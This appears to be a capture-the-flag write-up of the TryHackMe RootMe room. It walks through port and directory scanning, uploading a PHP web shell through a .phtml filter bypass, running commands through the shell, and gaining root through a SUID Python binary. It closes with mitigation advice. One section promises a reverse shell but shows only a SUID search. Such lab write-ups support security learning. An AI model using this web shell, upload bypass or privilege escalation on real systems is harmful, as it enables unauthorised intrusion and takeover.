










# RootMe

**Difficulty:** Easy  
**Room Link:** [https://tryhackme.com/room/rrootme](https://tryhackme.com/room/rrootme)

## Overview

RootMe is a beginner-friendly penetration testing room that focuses on web exploitation through file upload vulnerabilities and privilege escalation via SUID binaries. The challenge involves reconnaissance, exploiting an insecure file upload mechanism, gaining initial access, and escalating privileges to root.

---

## Reconnaissance

### Port Scanning

The first step in any penetration test is reconnaissance. We start by scanning the target machine to identify open ports and running services.

```bash
nmap -A -T4 10.201.65.18
```

**Command breakdown:**
- `-A`: Enables OS detection, version detection, script scanning, and traceroute
- `-T4`: Sets timing template to aggressive for faster scanning

**Results:**


```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

**Answers to questions:**
- **How many ports are open?** 2
- **What version of Apache is running?** 2.4.41
- **What service is running on port 22?** SSH

The scan reveals two open ports:
- Port 22: SSH service (OpenSSH 8.2p1)
- Port 80: HTTP web server (Apache 2.4.41)

---

### Directory Enumeration

Next, we enumerate the web server to discover hidden directories using GoBuster, a directory brute-forcing tool.

```bash
gobuster dir -u "http://10.201.65.18:80" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64
```

**Command breakdown:**
- `dir`: Directory/file enumeration mode
- `-u`: Target URL
- `-w`: Wordlist to use for enumeration
- `-t 64`: Number of concurrent threads

**Results:**



```
/uploads              (Status: 301) [Size: 314]
/css                  (Status: 301) [Size: 310]
/js                   (Status: 301) [Size: 309]
/panel                (Status: 301) [Size: 312]
```

**Answer to question:**
- **What is the hidden directory?** /panel

The enumeration reveals several interesting directories:
- `/panel` - Likely an admin or upload panel
- `/uploads` - Directory where uploaded files are stored
- `/css` and `/js` - Standard web assets

The `/panel` directory is particularly interesting as it could provide an entry point for exploitation.

---

## Getting a Shell

### Analyzing the Upload Panel

Navigating to `http://10.201.65.18/panel/` reveals a file upload form. This is a common attack vector where poorly configured upload mechanisms can allow us to upload malicious code.



### Obtaining a PHP Reverse Shell

We use a PHP reverse shell from the PayloadsAllTheThings repository, which is a comprehensive collection of useful payloads for various exploitation scenarios.

**Resource:** [PayloadsAllTheThings - PHP Shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/shell.phtml)



The shell code is minimal but effective:

```php
<?php echo "Shell";system($_GET['cmd']); ?>
```

This creates a simple web shell that executes system commands passed via the `cmd` parameter in the URL.

### Bypassing Upload Restrictions

When attempting to upload a `.php` file, the application likely blocks it. However, we can bypass this restriction by using alternative PHP file extensions that are still executed by the Apache server.

**Extension used:** `.phtml`

The `.phtml` extension is processed by PHP but often bypasses basic blacklist filters that only check for `.php` extensions.



### Testing the Web Shell

After successfully uploading `shell.phtml`, we can access it at:

```
http://10.201.65.18/uploads/shell.phtml
```



Testing basic command execution:

```
http://10.201.65.18/uploads/shell.phtml?cmd=ls /var/www
```



This confirms the web shell is working and executing commands on the server.

### Finding the User Flag

We can navigate the file system using our web shell:

```
http://10.201.65.18/uploads/shell.phtml?cmd=cat /var/www/user.txt
```



**User Flag:** `THM{REDACTED}`

---

## Establishing a Reverse Shell

While the web shell provides command execution, it's limited and awkward to use. We need to establish a proper reverse shell for better control.

### Setting up a Netcat Listener

On our attacking machine (Kali Linux), we start a netcat listener:

```bash
nc -lvnp 4000
```

**Command breakdown:**
- `-l`: Listen mode
- `-v`: Verbose output
- `-n`: No DNS resolution
- `-p 4000`: Listen on port 4000

### Triggering the Reverse Shell

We can use the web shell to execute a reverse shell payload. Using our web shell, we run a command to search for SUID binaries:

```
http://10.201.65.18/uploads/shell.phtml?cmd=find / -user root -perm /4000
```



This command searches the entire filesystem for files owned by root with the SUID bit set, which can be leveraged for privilege escalation.

**SUID binaries found include:**
- `/usr/bin/python`
- `/usr/bin/newgrp`
- `/usr/bin/passwd`
- And many others...

The presence of `/usr/bin/python` with SUID is particularly interesting as it can be exploited for privilege escalation.

---

## Privilege Escalation

### Exploiting SUID Python

The Python binary has the SUID bit set, meaning it runs with root privileges. We can abuse this to read files as root or even spawn a root shell.

**Resource:** [GTFOBins - Python](https://gtfobins.github.io/gtfobins/python/)



GTFOBins is an excellent resource that catalogs Unix binaries that can be exploited for privilege escalation when they have special permissions like SUID.

### Reading the Root Flag

We can use Python's file reading capabilities to read the root flag:

```
http://10.201.65.18/uploads/shell.phtml?cmd=python -c 'print(open("/root/root.txt").read())'
```



**Root Flag:** `THM{REDACTED}`

### Alternative: Spawning a Root Shell

If we wanted a full root shell, we could use Python to execute a shell:

```bash
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

This would spawn a bash shell running as root, giving us complete control over the system.

---

## Summary

This challenge demonstrated several key penetration testing concepts:

1. **Reconnaissance**: Using nmap to identify open ports and services
2. **Directory Enumeration**: Using gobuster to discover hidden web directories
3. **File Upload Exploitation**: Bypassing upload filters by using alternative PHP extensions (.phtml)
4. **Web Shells**: Gaining initial code execution through uploaded malicious files
5. **Privilege Escalation**: Exploiting SUID binaries (Python) to escalate from www-data to root

### Flags Captured

- **User Flag**: `THM{REDACTED}`
- **Root Flag**: `THM{REDACTED}`

---

## Key Takeaways

- Always enumerate thoroughly - hidden directories can reveal critical vulnerabilities
- File upload mechanisms are dangerous if not properly secured
- Alternative file extensions can bypass weak blacklist filters
- SUID binaries are a common privilege escalation vector
- Resources like PayloadsAllTheThings and GTFOBins are invaluable for exploitation

---

## Mitigation Recommendations

**For File Upload Vulnerabilities:**
- Implement whitelist-based file type validation
- Store uploaded files outside the web root
- Randomize uploaded file names
- Remove execute permissions on upload directories
- Implement strict content-type checking

**For SUID Privilege Escalation:**
- Audit all SUID binaries regularly
- Remove SUID bit from unnecessary binaries
- Consider using capabilities instead of SUID where appropriate
- Implement proper file system permissions
